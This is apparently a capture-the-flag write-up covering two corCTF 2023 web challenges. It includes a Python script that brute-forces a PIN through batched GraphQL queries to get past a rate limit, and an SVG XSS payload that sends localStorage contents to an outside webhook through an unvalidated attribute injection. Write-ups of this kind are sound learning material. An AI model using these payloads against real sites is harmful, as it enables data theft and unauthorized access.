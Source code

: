 ```yaml
---
title: "corCTF 2023 writeups"
slug: "corCTF2023-writeups"
date: 2023-08-02
summary: "Writeups for web/force, web/frogshare from corCTF 2023"
draft: false
---
```


## web/force
118 solves 

In this challenge we are given a basic website which allows us to execute GraphQL queries. The goal here is to provide the correct pin in order to fetch the flag. The pin is a random integer between 0 and 100,000

![Untitled](img/Untitled.png)

The roadblock here is that we can only send 10 requests in a minute. To bypass we can use [batched queries](https://lab.wallarm.com/graphql-batching-attack/) in graphql to brute force the pin. 

![Untitled](img/Untitled%201.png)

The script to get the flag -

```python
import requests

url = "http://localhost:8000"
# url = "https://web-force-force-899269d54e3ec7ab.be.ax/"

def split(a, n):
    k, m = divmod(len(a), n)
    return (a[i*k+min(i, m):(i+1)*k+min(i+1, m)] for i in range(n))

def make_payload(start, end):
    data = "query {"
    for i in range(start, end):
        data += f"f{i}: flag(pin:{i})\n"
    data += "}"

    return data

ints = split(list(range(0, 10**5)), 10)

for l in ints:
    data = make_payload(l[0], l[-1])
    r = requests.post(url, data=data, headers={'Content-Type': 'text/plain'})
    if not r.ok:
        print("Request too large. Range = {start}, {end}")
        continue
    resp = r.json()
    s = set(list(resp.values())[0].values())
    print(s)
```

Output - 

```
{'Wrong!'}
{'Wrong!'}
{'corctf{S                T                  O               N                   K                 S}', 'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
```

## web/frogshare
33 solves

In this challenge we have a react based site where we can share svg images with the admin. The goal here is to perform XSS on admin to fetch the flag from local storage.  

![Untitled](img/Untitled%202.png)

The application uses `[external-svg-loader](https://www.npmjs.com/package/external-svg-loader)` package to load the SVGs in the webpage. By default this will [strip all javascript](https://github.com/shubhamjain/svg-loader#2-enable-javascript) in the svg but we can enable it by setting attribute `data-js="enabled"` in the svg tag.

The form to submit svg only has client-side validation and saves the svgProps json directly to the db without any server side validation when we send the api request. 

![Untitled](img/Untitled%203.png)

Another issue with the application is that it spreads the svgProps instead of just selecting height, width, viewbox. Therefore, we can inject any attributes in the svg tag.

![Untitled](img/Untitled%204.png)

With above information, all that’s left is to craft our SVG payload and send a request which adds the `data-js` attribute and allows us to perform XSS.

SVG Payload

```html
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
   navigator.sendBeacon("https://webhook.site/49055ec9-e90d-4226-8a6b-86ceeb594345?f=" + localStorage.getItem("flag"));
  </script>
</svg>
```

Update frog request with our svg and data-js attribute

```json
PATCH /api/frogs?id=27 HTTP/1.1
Host: frogshare.be.ax
Cookie: session=5c935345360d0...
Content-Type: application/json
Content-Length: 556

{
    "name": "some frog",
    "url": "data:image/svg+xml;base64,PHN2ZyB2ZXJzaW9uPSIxLjEiIGJhc2VQcm9maWxlPSJmdWxsIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPgogIDxwb2x5Z29uIGlkPSJ0cmlhbmdsZSIgcG9pbnRzPSIwLDAgMCw1MCA1MCwwIiBmaWxsPSIjMDA5OTAwIiBzdHJva2U9IiMwMDQ0MDAiLz4KICA8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlwdCI+CiAgIG5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwczovL3dlYmhvb2suc2l0ZS80OTA1NWVjOS1lOTBkLTQyMjYtOGE2Yi04NmNlZWI1OTQzNDU/Zj0iICsgbG9jYWxTdG9yYWdlLmdldEl0ZW0oImZsYWciKSk7CiAgPC9zY3JpcHQ+Cjwvc3ZnPg==",
    "svgProps": {
        "height": 64,
        "width": 64,
        "data-js": "enabled"
    }
}
```

Flag - `corctf{M1nd_Th3_Pr0p_spR34d1ng_XSS_ThR34t}`
